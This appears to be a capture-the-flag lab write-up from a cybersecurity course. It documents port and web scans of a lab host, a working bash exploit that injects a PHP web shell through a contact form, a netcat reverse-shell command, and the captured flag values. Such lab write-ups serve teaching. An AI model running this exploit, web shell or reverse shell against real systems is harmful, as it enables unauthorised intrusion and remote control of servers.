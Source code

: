 # Attacking Target 2

## Table of Contents
- [Discovering Vulnerabilities](#discovering-vulnerabilites)
- [Exploiting Discovered Vulnerability](#exploiting-discovered-vulnerabilities)
- [Flags](#flags)

### Discovering Vulnerabilities

- `nmap` scan
  - An nmap scan presented all abvailable ports.
    - Port 22 (SSH)
    - Port 80 (HTTP)
    - Port 111 (rpcbind)
    - Port 139 (netbios-ssn)
    - Port 445 (netbios-ssn)
  - `nmap -sS -sV 192.168.1.115`
- ![nmapscan](./Images/Target2/nmap%20scan%20target2.JPG)

- `nikto` scan
 - A nikto scan revealed all dangerous files/CGIs, outdated server software and other problems.
- ![niktoscan](./Images/Target2/nikto%20results.JPG)

- `gobuster` scan
  - A gobuster scan brute-forced all available URI's and DNS subdomains.
- ![gobusterscan](./Images/Target2/gobuster%20scan.JPG)

### Exploiting Discovered Vulnerability

-  A Contact Form 7 vulnerability was found.
  - This allowed an `exploit.sh` bash script to be run that allowed a `backdoor.php` file to be uploaded to the WordPress directory of the server.
```bash
#!/bin/bash
# Lovingly borrowed from: https://github.com/coding-boot-camp/cybersecurity-v2/new/master/1-Lesson-Plans/24-Final-Project/Activities/Day-1/Unsolved

TARGET=http://192.168.1.15/contact.php

DOCROOT=/var/www/html
FILENAME=backdoor.php
LOCATION=$DOCROOT/$FILENAME

STATUS=$(curl -s \
              --data-urlencode "name=Hackerman" \
              --data-urlencode "email=\"hackerman\\\" -oQ/tmp -X$LOCATION blah\"@badguy.com" \
              --data-urlencode "message=<?php echo shell_exec(\$_GET['cmd']); ?>" \
              --data-urlencode "action=submit" \
              $TARGET | sed -r '146!d')

if grep 'instantiate' &>/dev/null <<<"$STATUS"; then
  echo "[+] Check ${LOCATION}?cmd=[shell command, e.g. id]"
else
  echo "[!] Exploit failed"
fi
```

- The `backdoor.php` file allowed for execution of command injection attacks on the target website.
  - `http://<Target 2 URL>/backdoor.php?cmd=<CMD>` can now be run in the Kali browser that uses `backdoor.php` to open a shell session on the target.
  - `nc -lnvp 4444` was used on the Kali terminal to open a listening port on port `4444`.
  - On the Kali browser `http://<Target 2 URL>/backdoor.php?cmd=nc%20<Kali IP>%204444%20-e%20/bin/bash` was used and a shell session was obtained on the target.
- ![shellsession](./Images/Target2/shell%20session.JPG)

### Flags

- `flag1.txt`: `a2c1f66d2b8051bd3a5874b5b6e43e21`
- `flag2.txt`: `6a8ed560f0b5358ecf844108048eb337`
- `flag3.png`: `a0f568aa9de277887f37730d71520d9b`
